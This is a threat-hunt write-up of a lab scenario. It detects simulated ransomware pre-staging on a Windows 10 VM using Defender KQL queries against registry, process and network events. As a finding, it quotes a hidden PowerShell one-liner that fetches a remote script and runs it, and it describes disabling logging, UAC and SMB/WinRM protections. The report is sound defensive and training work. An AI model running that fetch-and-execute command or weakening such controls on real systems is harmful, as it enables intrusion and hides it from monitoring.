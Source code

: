 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging  
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where RegistryKey has_any (
        @"\PowerShell\Transcription",
        @"\PowerShell\ScriptBlockLogging",
        @"\Policies\System",
        @"\LanmanWorkstation",
        @"\LanmanServer",
        @"\WinRM\Client", @"\WinRM\Service",
        @"\FipsAlgorithmPolicy")
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, RegistryValueData
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked DeviceProcessEvents for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched DeviceNetworkEvents for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985).

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985) or (Protocol == "SMB" and SmbIsSigned == false)
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
```

Findings:
Immediately after registry flips, the host initiated WinRM HTTP to 10.0.0.15 (internal admin box). No SMB signing packets yet, but early WinRM use confirms staging.

Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|	powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|	All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|	First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
MDE action “Isolate device” executed.

---

